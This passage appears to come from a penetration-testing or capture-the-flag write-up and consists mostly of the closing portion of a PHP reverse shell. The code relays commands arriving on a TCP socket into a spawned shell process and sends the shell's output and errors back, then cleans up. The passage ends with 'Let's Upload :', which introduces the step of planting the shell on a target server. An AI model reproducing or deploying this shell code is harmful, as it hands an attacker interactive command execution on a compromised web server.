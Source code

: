 ```bat
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 

```
Let's Upload : 
